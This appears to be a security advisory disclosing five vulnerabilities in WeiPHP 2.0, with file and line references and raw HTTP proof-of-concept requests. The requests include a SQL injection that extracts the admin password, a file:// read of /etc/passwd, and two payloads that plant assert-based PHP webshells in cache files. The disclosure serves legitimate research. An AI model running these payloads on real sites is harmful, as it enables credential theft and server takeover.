

###WEIPHP Multiple Vulnerability

####General description：

Weiphp is an open source, efficient and concise WeChat development platform.

**[1]Weiphp 2.0 YouaskService plug-in has a SQL injection vulnerability. Remote unauthorized attackers can exploit vulnerabilities to obtain database sensitive information.**

**[2]Weiphp 2.0 has an arbitrary file read vulnerability. Remote unauthorized attackers can use this vulnerability to read arbitrary files in the system.**

**[3]Weiphp 2.0 has a code execution vulnerability.Remote unauthorized attackers can use this vulnerability to gain control of the server.**

**[4]Weiphp 2.0 has a code execution vulnerability.Remote background admin privilege user can use this vulnerability to gain control of the server.**

**[5]Weiphp 2.0 has web site physical path leakage vulnerability.**

_ _ _

**Environment: **
apache/php 7.0.12/weiphp 2.0.1202


_ _ _

**[1]**

YouaskService is the default plug-in service of the system.

In the ajaxMain function of the \Addons\YouaskService\Controller\IndexController.class.php file:


Line 138 gets the time variable submitted by post
Line 144 splices the time variable into the SQL variable
Line 152 passes SQL variables into where variables, and line 153 queries the database
The injection is caused by the use of splicing, and line 154 displays the queried data.

Post requests the following data:
```
POST /index.php?s=addon/YouaskService/index/ajaxMain HTTP/1.1
Host: 127.0.0.1
Proxy-Connection: keep-alive
Content-Length: 161
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://127.0.0.1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
DNT: 1
Referer: http://127.0.0.1/index.php?s=/admin
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie:

time=1) and 1=2 union select 1,2,3,(select username from wp_ucenter_member where id=1),(select password from wp_ucenter_member where id=1),6,7,8,9,10#&opened=aaa
```



Obtained the admin's password through the SQL injection vulnerability.

**[2]**

In the showExternalPic function of \Addons\YouaskService\Controller\IndexController.class.php:


Line 238 gets the data to be requested through the url variable
Line 248 requests data via php's curl protocol

request ```view-source:http://127.0.0.1/index.php?s=/addon/YouaskService/index/showExternalPic/wecha_id/1/token/2/&url=file:///etc/passwd```

Through the vulnerability we read the contents of /etc/passwd:


**[3]**

In the param function of \Addons\Diy\Controller\DiyController.class.php:


Line 106 will cache the contents into the file via the S function of thinkphp.
When submitting the page_id parameter value is 1
The file name is md5(diy_1),/Runtime/Temp/1dd633b3128a336438a6a99b6b18980e.php


And because there is no restriction on the input data, the executable code can be inserted by line break, resulting in code execution.

Post requests the following data:
```
POST /index.php?s=/addon/Diy/Diy/param HTTP/1.1
Host: 127.0.0.1
Proxy-Connection: keep-alive
Content-Length: 65
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://127.0.0.1/
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
DNT: 1
Referer: http://127.0.0.1:8005/index.php?s=/Home/User/register.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie:

page_id=1&preview=0&widget_id=%0a%0d@assert($_POST['fucktom']);/*
```


The webshell is:```/Runtime/Temp/1dd633b3128a336438a6a99b6b18980e.php```.

**[4]**

In the save function of \Application\Admin\Controller\ConfigController.class.php:


Line 126 will cache the contents into the file via the S function of thinkphp.
The file name is md5('DB_CONFIG_DATA'),/Runtime/Temp/95a1fe934b68ebfee8468bf0bc4f0000.php

And because there is no restriction on the input data, the executable code can be inserted by line break, resulting in code execution.

Log in to the background with admin privileges
Enter the following and submit:
```
Home/User/*
assert($_POST['fucktom']);/*
home/weixin/*
admin/File/*
home/File/*
home/Forum/*
```


The webshell is:```/Runtime/Temp/95a1fe934b68ebfee8468bf0bc4f0000.php```.

**[5]**

Request ```/index.php?s=/home/test/jiamiFile``` to generate test2.php in the root directory
Visit test2.php:


